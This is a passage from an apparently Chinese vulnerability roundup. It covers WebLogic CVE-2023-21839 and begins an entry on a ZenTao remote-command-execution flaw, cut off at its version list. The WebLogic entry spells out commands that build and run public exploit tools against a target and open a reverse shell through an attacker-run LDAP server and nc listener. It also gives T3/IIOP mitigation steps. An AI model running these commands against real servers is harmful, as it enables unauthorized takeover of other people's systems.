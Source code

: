 # 7、 **WebLogic 远程代码执行漏洞**

由于 Weblogic T3/IIOP 协议支持远程对象通过 bind 方法绑定到服务端，并且可以通过 lookup 方法查看，当远程对象继承自
OpaqueReference 类，使用 lookup 方法查看远程对象时，服务端会调用远程对象的 getReferent
方法。weblogic.deployment.jms.ForeignOpaqueReference 继承自OpaqueReference
类，同时实现了getReferent 方法，并且存在 retVal =
context.lookup(this.remoteJNDIName)实现，故可以通过 rmi/ldap 远程协议进行远程命令执行。  
 **漏洞标签：** 利用链成熟、服务器权限相关、打点常见、供应链风险  
 **漏洞编号：** CVE-2023-21839  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. Oracle WebLogic Server 12.2.1.3.0
  2. Oracle WebLogic Server 12.2.1.4.0
  3. Oracle WebLogic Server 14.1.1.0.0

 **利用方法：**  
检测工具  
https://github.com/4ra1n/CVE-2023-21839  
使用官方提供的工具需要使用go语言编译

    
    
    cd cmd  
    go build -o CVE-2023-21839.exe  
      
    CVE-2023-21839.exe -ip 目标IP -port 目标端口 -ldap DSNlog地址  
    

回显验证，可反弹shell  
需要使用JNDIExploit-1.4-SNAPSHOT.jar工具启动ladp服务  
https://github.com/WhiteHSBG/JNDIExploit

    
    
    java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 服务器ip  
    nc -lvvp 端口  
    java -jar Weblogic-CVE-2023-21839.jar IP:7001 ldap://ldap服务器IP:1389/Basic/ReverseShell/ldap服务器IP/nc监听端口  
    

 **修复建议**  
如不依赖 T3 协议进行通信，可通过阻断 T3 协议和关闭 IIOP 协议端口防止  
漏洞攻击，方法如下：1. 禁用 T3 协议：进入 Weblogic 控制台，在
base_domain配置页面中，进入“安全”选项卡页面，点击“筛选器”，配置筛选器，然后在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，在连接筛选器规则框中输入：*
* 7001 deny t3 t3s。2. 关闭 IIOP 协议端口：在 WebLogic
控制台中，选择“服务”->”AdminServer”->”协议”，取消“启用 IIOP”的勾选，并重启
WebLogic项目，使配置生效。官方已发布漏洞补丁及修复版本，可以评估业务是否受影响后，酌情升级至安全版本。

# 8、 **禅道项目管理系统远程命令执行漏洞**

禅道项目管理系统存在远程命令执行漏洞，该漏洞源于在认证过程中未正确退出程序，导致了认证绕过，并且后台中有多种执⾏命令的⽅式，攻击者可利用该漏洞在目标服务器上注入任意命令，实现未授权接管服务器。  
 **漏洞标签：** 国产OA、国产框架、服务器权限相关、打点常见、利用链成熟  
 **漏洞编号：** CNVD-2023-02709  
 **漏洞类型：** RCE  
 **受影响版本：**
